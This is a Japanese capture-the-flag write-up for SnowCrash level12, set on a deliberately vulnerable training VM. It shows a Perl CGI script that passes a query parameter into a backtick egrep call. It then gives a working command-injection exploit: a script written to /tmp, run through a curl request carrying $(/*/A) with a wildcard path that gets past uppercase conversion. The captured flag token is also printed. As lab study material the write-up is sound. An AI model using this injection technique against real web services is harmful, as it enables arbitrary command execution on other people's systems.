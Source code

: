 ## perlスクリプトの内容を確認
```sh
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//; # 空白以降の文字列削除
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

## 関数のポイント
- このcgiは`n()`の第一引数で`t("x")`を引数として渡している。xはクエリパラメータとして指定する。
- `t()`で`egrep "^$xx" /tmp/xd 2>&1`を使ってシェルコマンドを実行する。

## エクスプロイト
`curl 'http://localhost:4646/?x=<payload>` にリクエストを送信し`@output = `egrep "^$xx" /tmp/xd 2>&1;``で任意のコマンドをインジェクションできる。
ただし、ファイル作成できるディレクトリが`/tmp/`のみで`$xx =~ tr/a-z/A-Z/;` でアッパーケースになり、`/tmp/`のファイルをそのまま読み込ませることはできない。
この問題を回避するために、ワイルドカード`/*/`を使い、/tmp/内のファイルにアクセスできるようにする。

### インジェクション用のスクリプト作成
```sh
level12@SnowCrash:~$ echo '#!/bin/bash' > /tmp/A
level12@SnowCrash:~$ echo 'getflag > /tmp/a' >> /tmp/A
level12@SnowCrash:~$ chmod +x /tmp/A
```

### 実行
```sh
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=$(/*/A)'
..level12@SnowCrash:~$cat /tmp/a
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```